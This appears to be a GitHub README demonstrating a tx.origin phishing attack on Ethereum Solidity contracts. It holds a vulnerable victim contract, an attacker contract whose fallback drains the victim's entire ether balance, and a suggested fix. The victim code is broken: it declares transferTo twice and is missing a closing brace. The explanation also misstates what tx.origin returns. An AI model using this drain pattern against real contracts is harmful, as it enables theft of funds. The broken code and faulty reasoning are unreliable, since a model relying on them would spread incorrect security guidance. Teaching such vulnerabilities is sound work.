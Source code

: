# EthereumDAOAttacks
EthereumDAOAttacks - Scenarios

This project lists all possible scenarios to attack a vulnerable Contracts

## Scenario-1:

Given: Vulnerable contract has public transfer method with check on transaction's origin 
       Attacker writes a fallback method to relay the transaction from vulnerable-contract to its own transfer method
       Attacker poses to be a genuine service provider and lures the vulnerable contract to send ether

When: Vulnerable contract sends ether to Attacker's Contract

Then: Attacker should pull entire ether to his/her own account

Description:

Vulnerable contract's transferTo Method:

```solidity

pragma solidity ^0.4.18;

contract TxOriginVictim {
address owner;

function TxOriginVictim() {
  owner = msg.sender;
}
function transferTo(address to, uint amount) public {
  require(tx.origin == owner);
  to.call.value(amount)();
}

function transferTo(address to, uint amount) public {
  require(tx.origin == owner);
  to.call.value(amount)();
}
function() payable public {}
```

Attacker's contract:

```
pragma solidity ^0.4.18;

interface TxOriginVictim {
  function transferTo(address to, uint amount);
}
contract TxOriginAttacker {
address owner;

function TxOriginAttacker() public {
  owner = msg.sender;
}
function getOwner() public returns (address) {
  return owner;
}
function() payable public {
  TxOriginVictim(msg.sender).transferTo(owner, msg.sender.balance);
}
}
```

txn.origin always gives root/initiator of transaction which is the vulnerable's contract address (owner)
Attacker relays the transaction originated from vulnerable contract to its own transferTo method
Vulnerable contract just checks if the transaction is originated by it (owner), and sends ether to destinationAddress
Attacker walks-away with looten ether

Fix:
use msg.sender instead of txn.origin

txn.origin gives vulnerable contract's address in this scenario
Had this been msg.sender, then it would have ended with Attacker's contract address 

A -> B -> C -> A

A Called B & B called C & C Called A

In this scenario:
- txn.origin for C's call to A will give A
- msg.sender would give C instead of A

